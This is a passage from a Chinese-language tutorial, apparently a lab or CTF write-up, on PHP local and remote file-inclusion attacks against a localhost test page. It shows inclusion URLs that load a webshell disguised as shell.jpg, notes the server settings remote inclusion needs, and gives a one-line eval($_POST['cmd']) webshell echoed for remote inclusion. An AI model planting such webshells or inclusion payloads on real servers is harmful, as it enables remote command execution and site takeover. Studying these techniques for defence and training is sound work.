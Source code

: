 这里我们将`shell.php`改成`shell.jpg`的后缀，<br>

菜刀路径的话也要换成包含的格式
```
http://localhost/include.php?file=shell.jpg
```

依旧是可以访问的，<br>


好了，伪协议就说怎么多了。

------


### <span id = "a14">NO.3 远程包含</span>

既然是文件包含的题目，当然就离不开远程文件包含了，<br>

远程包含需要目标服务器将`allow_url_fopen`和`allow_url_include`开启才可以。<br>

现在将一匹马放到自己服务器上，然后远程包含这匹马，<br>

注意，这里有个坑 <br>

`这匹马的文件名不能是可以解析的文件后缀，比如php后缀可以解析，那么这匹马的后缀就不能是php` <br>
```
http://localhost/include.php?file=http://127.0.0.1/shell.jpg
```

但是如果我就想要包含php后缀的文件呢，当然也是可以的，<br>

不过这里需要将一句话`echo`出来才行，这样才可以包含php后缀的文件
```php
<?php
echo '<?php eval($_POST["cmd"]);?>';
?>
```
然后就可以利用了

![images](/images/2019-03-19/ln06.png)
